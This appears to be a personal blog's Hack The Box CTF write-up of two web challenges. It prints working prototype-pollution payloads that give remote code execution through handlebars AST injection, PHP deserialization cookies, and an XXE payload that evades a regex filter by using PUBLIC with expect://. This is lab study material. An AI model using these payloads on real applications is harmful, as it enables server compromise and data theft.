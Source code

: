 ```yaml
---
permalink: /portfolio/htb_ctf/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: HTB CTF
---
```


## Gunship

Gunship is an easy web challenge with one-star difficulty. It is a simple website that asks you for the name of a band member you like best and then responds with `Hello guest, thank you for letting us know!`. After throwing some tests at it, we started looking through the code. There we found this:

```js
// unflatten seems outdated and a bit vulnerable to prototype pollution
// we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines
```

Ah! This application is vulnerable to AST injection! And apparently, some po6ix can pwn this. After a quick google we found the page of this po6ix and he has a nice blog post about AST injection. ([source](https://blog.p6.is/AST-Injection/)) AST pollution is a where you can abuse JavaScript's prototype system to write into the memory. JS's prototyping is setting a default static value to an object, which is always read first. So being able to write into objects is a very good way to exploit an application.

There first tested payload is:

```json
{
  "artist.__proto__.name": "Westaway"
}
```

This sets the name value of artist to always be "Westaway", this way we will always get a reply via `handebars`, which is vulnerable for AST pollution. So let's exploit the `handlebars`

```json
{
"__proto__.pendingContent": "test"
}
```

![response](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/response.png)

This replaces every reply made with handlebars with "test". This is a very good way to get data out of the application. After that we can see how we exploit this system. As we look further to po6ix's blog, there is an RCE in handlebars. The blog shows that this payload can lead to an RCE:

```json
"__proto__.type": "Program",
"__proto__.body": [{
  "type": "MustacheStatement",
  "path": 0,
  "params": [{
    "type": "NumberLiteral",
    "value": "process.mainModule.require('child_process').execSync('id')"
  }],
  "loc": {
    "start": 0,
    "end": 0
  }
}]
```

The `type` states that the body is a Program, or something to execute. Then the value of the parameter is executed. In this case it just runs `id` in the shell. We cannot read the value of this, because it is not written anywhere. For that, we edit the `value` to:

```json
"value": "Object.prototype.pendingContent = process.mainModule.require('child_process').execSync('id').toString()"
```

![result](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/result.png)

Alright, now we have an RCE, but it seems that we cannot execute more than one command, because the system will not accept a second command. But, we can reset the machine and we only need one command.

From the `entrypoint.sh` we know where the flag is and that it starts with `flag` and then 5 random characters. So we want to read all files with starting with flag.

```bash
# Generate random flag filename
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /app/flag /app/flag$FLAG
```

So my payload is this:

![payload](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/payload.png)

![flag](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/flag.png)

We execute the payload to read all files starting with flag and then we write it into the pendingContent. The second response uses handlebars, so the pendingContent is also sent. With gives us the flag!

HTB{wh3n_l1f3_g1v3s_y0u_p6_st4rt_p0llut1ng_w1th_styl3}

## Waffles

The second challenge I worked on was waffles, this was a more difficult web challenge. A PHP website where you can order a waffle or icecream. This is a three-star challenge.

The initial page is just a simple webpage where you can enter a table number to order waffles or ice cream. After looking at the code, we can see that the `PHPSESSION` cookie is vulnerable to a PHP unserialize exploit. The model that can and probably should be called is the `XmlParserModel.php`. The downside is that both the unserialize and the XML functions are protected by a Regex-check.

Let's start at the start, the cookie desrializes to:

```php
O:9:"UserModel":1:{s:8:"username";s:10:"guest_5fb8";}
```

PHP serialize is very similar to JSON. However, when serialize is used, certain 'magic methods' are called in the object. The XmlParserModel has one of the magic methods, so if we can create this model, then we can abuse this method.

Creating the XmlParserModel should be as easy as changing the cookie to:

```php
O:15:"XmlParserModel":1:{s:4:"data";s:10:"guest_5fb8";}
```

However, some Regex is preventing that:

```regex
'/(^|;)O:\d+:"([^"]+)"/'
```

This regex filters the text out that states the object name, by checking if it starts with a ; or the beginning of the string. Then followed by a colon, a number, a colon, an O and then it finds the objects name. Then, it uses the following code to find out if the object has a magic method (starting with `__`), if it does, it is rejected.

```php
$matches = [];
$num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

for ($i = 0; $i < $num_matches; $i++) {
    $methods = get_class_methods($matches[2][$i]);
    foreach ($methods as $method) {
        if (preg_match('/^__.*$/', $method) != 0) {
            die("Unsafe method: ${method}");
        }
    }
```

This is the part I got stuck on. No matter what I did, either the payload was invalid, or the regex triggered it.

Okay, say we did get past the first check, what would happen if we got into the XmlParserModel? 

```php
public function __wakeup()
{        
    if (preg_match_all("/<!ENTITY\s+[^\s]+\s+SYSTEM\s+[\'\"](?i:file|http|https|ftp|php|zlib|data|glob|expect|zip):\/\//mi", $this->data))
    {
        die('Unsafe XML');
    }
    $env = simplexml_load_string($this->data, 'SimpleXMLElement', LIBXML_NOENT);
    foreach ($env as $key => $value)
    {
        $_ENV[$key] = (string)$value;
    }
}
```

Okay, as we talked about before, the `__wakeup()` function is a magic method that is run when the object is deserialized. Then the regex checks if the XML text contains XXE. A normal XXE payload like:

```xml
<!DOCTYPE bar [<!ENTITY file SYSTEM "expect://id">]>
<env>
  <foo>&file;</foo>
</env>
```

Does not work, because it contains `SYSTEM` and then `expect`. However, XML has something else: `public`. Public is very similair to `SYSTEM`, but made to be used external, so you need to give it a name. The resulting payload is:

```xml
<!DOCTYPE bar [<!ENTITY file PUBLIC "public" "expect://id">]>
<env>
  <foo>&file;</foo>
</env>
```

This does the same as the first payload, however, the Regex could not detect it. This could be expanded to a full RCE exploit to gain the flag, but without the ability to get past the first check, I saw no reason for finding out how to extract the flag.
